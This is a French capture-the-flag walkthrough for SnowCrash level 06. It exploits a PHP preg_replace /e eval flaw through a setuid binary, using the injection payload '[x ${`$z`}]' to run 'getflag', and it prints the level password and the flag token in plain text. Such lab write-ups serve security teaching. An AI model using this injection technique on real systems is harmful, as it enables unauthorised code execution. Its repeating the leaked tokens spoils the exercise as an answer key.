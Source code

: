 # LEVEL 06

### Reconnaissance

Lorsqu'on se connecte au level06, avec le password viuaaale9huek52boumoomioc
On a 2 fichiers:
```
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

- un binaire (level06)
- un fichier php (level06.php)

### Exploitation

En analysant le fichier php on peux voir une vulnérabilitée:

```
PREG_REPLACE_EVAL : /e --> [...]$a = preg_replace("/(\[x (.*)\])/e"[...]
```

Il nous suffit donc d'inséré un code qui poura etre évaluer:

```
level06@SnowCrash:~$ vim /tmp/exploit
// entrer ce code
[x ${`$z`}]
```

- Explication
```
[x        ]	--> code a remplacer sur le preg_replace
${}	    	--> https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex
``	 --> revient a faire un shell_exec() mais avec l'avantage ici de ne pas devoir inseré de quote ni de parenthèse.         https://stackoverflow.com/questions/3115559/exploitable-php-functions
```

```
level06@SnowCrash:~$ ./level06 /tmp/exploit getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Et voila :)
